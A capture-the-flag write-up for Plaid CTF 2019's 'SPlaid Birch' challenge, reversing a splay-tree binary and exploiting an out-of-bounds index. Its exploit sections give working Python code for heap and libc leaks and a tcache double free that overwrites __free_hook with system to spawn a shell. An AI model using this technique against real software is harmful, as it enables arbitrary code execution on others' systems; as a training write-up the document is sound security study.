


SPlaid Birch -- Plaid CTF 2019
With jofra
Points: 300 Solves: 41 Description:
I make sure never to use
scanf("%s")
when doing competitive programming so that my solutions don’t have buffer overflows. But writing algorithms is hard.
Recon
We are given an ELF 64-bit x86/64 stripped binary, a libc and an external library lisplaid.so.1. After reversing this library a bit, we realized that it is an implementation of Splay Trees.
From wikipedia:
A splay tree is a self-balancing binary search tree
with the additional property that recently accessed
elements are quick to access again.
Basically, this is done by making the last accessed node the root of the tree. This operation is called splaying.
Reversing the binary
Running checksec on the binary gives us the following:
$ checksec splaid-birch
[*] '/home/bl4ck/WiP/pwn/splaid-birch/splaid-birch'
Arch: amd64-64-little
RELRO: Full RELRO
Stack: Canary found
NX: NX enabled
PIE: PIE enabled
FORTIFY: Enabled
Looking at the binary, we identified the following structures:
struct sp_tree {
sp_node *root_node;
void *func_1;
void (*func_2)(sp_node *);
void *func_3;
int64_t allocated_sz;
int64_t sz;
super_node **nodes;
};
struct sp_node {
sp_node *parent;
sp_node *left;
sp_node *right;
int64_t sz;
};
struct super_node
{
int64_t node_val;
int64_t node_val_2;
/* unknown fields */
int64_t unk_4;
int64_t unk_1;
/* ============== */
int64_t node_i;
sp_node node;
};
In the main function, an sp_tree struct is created on the stack and initialized like so:
sp_tree tree;
tree.root_node = 0LL;
tree.func_1 = 0LL;
tree.func_2 = 0LL;
tree.func_3 = 0LL;
tree.sz = 0LL;
tree.allocated_sz = 0xALL;
tree.nodes = (super_node **)malloc_(0x50uLL);
/* libsplaid.so.1 function */
sp_init(&tree, func_3, func_1, func_2);
func_1 func_2 and func_3 are defined in the binary, and serve as comparators for the operations performed by the Splay Tree implementation.
The program then takes our input as unsigned longs and assigns it to the variables op, v3, v5 and v6. Then, it runs it through the following switch statement:
switch ( op ){
case 5uLL:
op_5_add_node(&tree, v5, v6);
break;
case 1uLL:
op_1_del_node(&tree, v5);
break;
case 2uLL:
v7 = op_2_get(&tree, v5);
print_nr(v7);
break;
case 3uLL:
v8 = op_3_nth(&tree, v5);
print_nr(v8);
break;
case 4uLL:
v9 = op_4_select(&tree, v5);
print_nr(v9);
break;
case 6uLL:
v10 = op_6_isolate_1(&tree, v5, v6);
print_nr((__int64)v10);
break;
case 7uLL:
op_7_isolate_2(&tree, v5, v6, v3);
break;
case 0uLL:
result = 0LL;
v12 = *MK_FP(__FS__, 40LL) ^ v14;
return result;
default:
continue;
}
}
There are three important functions to look at:
1.op_1_del_node
2.op_4_select
3.op_5_add_node
op_1_del_node simply calls sp_del with the provided node_val and then uses it to find and free the corresponding node in the tree.
void op_1_del_node(sp_tree *tree, unsigned __int64 node_i_to_del)
{
void *v2;
v2 = sp_del(tree, node_i_to_del);
if ( v2 )
{
tree->nodes[*((_QWORD *)v2 - 1)] = 0LL;
free((char *)v2 - 40);
}
}
The op_5_add_node function checks the amount of nodes added so far. If this amount matches the currently allocated size, then a realloc is performed on the tree->nodes array and with double it’s original size. If there is no free space adjacent to the buffer that’s being reallocated, it will free the previous buffer and allocate a new one, with the specified size. The contents of the previous buffer are then copied to the new one. This will be handy for our exploit.
Also, if sp_add does not successfully add the new node, it will be freed. One of the ways sp_add can fail is by adding a node with a node->node_val equal to another node already on the tree.
void op_5_add_node(sp_tree *tree, __int64 a2, __int64 a3)
{
__int64 v3;
__int64 v4;
super_node *new_node;
int64_t v6;
v3 = a2;
v4 = a3;
new_node = (super_node *)malloc_(0x48uLL);
v6 = tree->sz;
if ( v6 == tree->allocated_sz )
{
tree->allocated_sz = 2 * v6;
tree->nodes = (super_node **)realloc_(tree->nodes, 16 * v6);
}
new_node->node_i = tree->sz;
new_node->node_val = v3;
new_node->node_val_2 = v4;
new_node->unk_4 = 0LL;
if ( sp_add(tree, &new_node->node) )
{
tree->nodes[new_node->node_i] = new_node;
++tree->sz;
}
else
{
free(new_node);
}
}
Given this, we have pretty much full control over the operations performed on the tree.
Vulnerability
Let’s look at the op_4_select function:
// (...)
case 4uLL:
v9 = op_4_select(&tree, v5);
print_nr(v9); // node->node_val_2 is printed
break;
// (...)
int64_t __fastcall op_4_select(sp_tree *tree, __int64 node_idx) {
super_node *v2; // rbx@1
v2 = tree->nodes[node_idx]; // OOBR here
sp_select(tree, &v2->node);
return v2->node_val_2;
}
By controlling the node_idx parameter (which we do) we can perform an sp_select on any “node” on the heap, since there is no bounds check. The sp_select function looks like this:
/* libsplaid.so.1 */
sp_node sp_select(sp_tree *tree, sp_node *node_to_select) {
sp_node *result;
result = splay(node_to_select, tree->func_2);
tree->root_node = result;
return result;
}
We have to ensure a couple of things to guarantee the program doesn’t crash during the splay:
node_to_selectis a valid pointer to a node (or null)node_to_select->parent,node_to_select->left,node_to_select->rightare all null or another valid node
Exploit
Heap Leak
To defeat ASLR we need to leak some addresses. The first leak we need is a heap address. This will allow us to have more control over the fake node we are selecting. We achieve this with the Out-Of-Bounds Read (OOBR) we found before.
After a bit of experimentation, we were able to setup the heap to have this fake node we can index to (and doesn’t crash on splay):
tree->nodes[node_idx]
|
v
0x555555758858: 0x0000000000000000 --> node->node_val
0x555555758860: 0x0000555555758718 --> node->node_val_2 (will be printed)
0x555555758868: 0x0000000000000000 --> node->unk_4
0x555555758870: 0x0000000000000006 --> node->unk_1
0x555555758878: 0x000000000001f791 --> node->node_i
0x555555758880: 0x0000000000000000 --> node->parent
0x555555758888: 0x0000000000000000 --> node->left
0x555555758890: 0x0000000000000000 --> node->right
0x555555758898: 0x0000000000000000 --> node->sz
As we have seen before node->node_val_2 is printed, allowing us to leak an heap address and de-randomize the heap.
This is the code we wrote to accomplish it:
# ==========
# Leak heap ptr
# ==========
log.info("Leaking a heap addr:")
# This values were found by trial and error
N = 16
del_N = 10
idx = 27
# Create and delete nodes to setup the heap for our leak
for _ in range(N):
create_node(s)
for k in range(del_N):
del_node(s, k)
# `select_node` is vulnerable to an OOBR
# By selecting a fake 'node' in the heap, we get a heap pointer leak
leak = int(select_node(s, idx))
Libc Leak
Now that we know the address of the heap, we can place our own addresses of fake nodes instead of relying on the ones already there on the heap.
To start we just reset the tree to avoid crashing on further operations from having added an invalid node for the leak. We do it with select_node(s, del_N + 1), which simply selects one of the valid nodes we had inserted before. The sp_select function does tree->root_node = result and so we just go back to the original (not corrupted) state.
Before leaking a libc address we also need to make one show up on the heap. To do this we’ll trigger a realloc in the op_5_add_node function, which, since there is no continuous space available, will free tree->nodes and copy the data to a new malloc’ed area. The block being freed is large and therefore does not go on the tcache or fastbins, but is instead placed in the unsorted chunk list, which is a doubly linked list.
As a comment in glibc’s source code mentions:
“Place the chunk in unsorted chunk list. Chunks are not placed into regular bins until after they have been given one chance to be used in malloc.”
Being the only chunk in the list at this moment, both the forward and back pointers, now point to the main_arena which is the structure in libc that holds these lists of free chunks.
Having this address on the heap we can now leak it. We spray the heap with an address so that node->node_val_2 points to the libc address and then index into it with op_4_select as we did before.
The last thing we need to make sure is that the realloc’ed chunk is placed before the old free chunk so we can use positive indexes in op_4_select. To do this we delete all the nodes we inserted except the last few ones to prevent the realloc from extending the old chunk. This way the new chunk is placed before the old chunk. (afterwards we realized we could use negative indexes as well, so this step was unecessary)
This is the code we wrote to accomplish it:
# ==========
# Leak libc addr
# ==========
log.info("Leaking a libc addr:")
# Create nodes just before a call to `realloc` for the `tree->nodes`
# Put the addr where our libc leak will be in the node so we can then index into it
leak_libc_addr = heap + 720
for _ in range(305 - 1):
create_node(s, arg2=leak_libc_addr)
# Delete most nodes inserted to get space for the next `realloc`
# We need this to ensure the realloc comes above the alocated nodes so we can index into it
for k in range(j - 1, 10, -1):
del_node(s, k)
# Trigger the `realloc`
create_node(s, arg2=leak_libc_addr)
leak_libc_idx = (0xb48 / 8)
leak_libc = int(select_node(s, leak_libc_idx))
Exploiting the Tcache
Ok, we have all these leaks, but how do we get code execution? Our goal was to overwrite the __free_hook function pointer located in the libc, which, if not null, is called whenever free is called.
If we can somehow make it point to system, we can then do the following:
- Add a node with value
"/bin/sh\x00"(will be the root of the tree) - Add a node with value
"/bin/sh\x00"(will fail and be freed)
This last step will make sp_add fail, because no two nodes can have the same value. This causes a call to free(node) and since we overwrote the __free_hook pointer with system, it will also call system("/bin/sh\x00").
So:
- We can create nodes of size 72 and control their
node->node_valandnode->node_val_2 - We can delete (free) nodes which will end up on the tcache. The pointer to the
nextfree chunk in the tcache_entry will be exactly in the same offset as ournode->node_valfield.
By exploiting the OOBR again we can cause a double free of a node by:
- creating a node
- deleting it
- selecting it (with our OOBR), making it part of the tree again
- deleting it the second time
We use this to corrupt tcache_entry->next and make malloc return an arbitrary pointer (in our case to __free_hook) as shown in the image below and commented on the exploit code.

This is the code we wrote to accomplish it:
m1_addr = heap + 14800
idx_for_m1_addr = (0x16e0 / 8)
idx_for_nulls = idx_for_m1_addr + 1
# This node is used to keep the pointer to m1 and a pointer to a 'null' node (aka no parent, left or right)
create_node(s, m1_addr, pointer_to_nulls)
# Create m1, the node we will want to free twice
m1 = create_node(s)
# Free m1, the first time
del_node(s, m1)
# Select m1's addr and free it again
select_node(s, idx_for_m1_addr)
del_node(s, 0)
# m2 will get the same addr as m1.
# Corrupt: m1->next == `__free_hook`
m2 = create_node(s, free_hook, 0)
select_node(s, idx_for_nulls)
m3 = create_node(s)
# m4 will get the addr of `__free_hook`. Write `system` there!
m4 = create_node(s, system, 0)
# Creats a node pointing to "/bin/sh\x00"
create_node(s, u64("/bin/sh\x00"), 0)
# Adding a second node with the same val will fail and result in `free(node_2)`
# We made `__free_hook` point to system and so we get `system("/bin/sh\x00")`
create_node(s, u64("/bin/sh\x00"), 0)
Running the exploit:
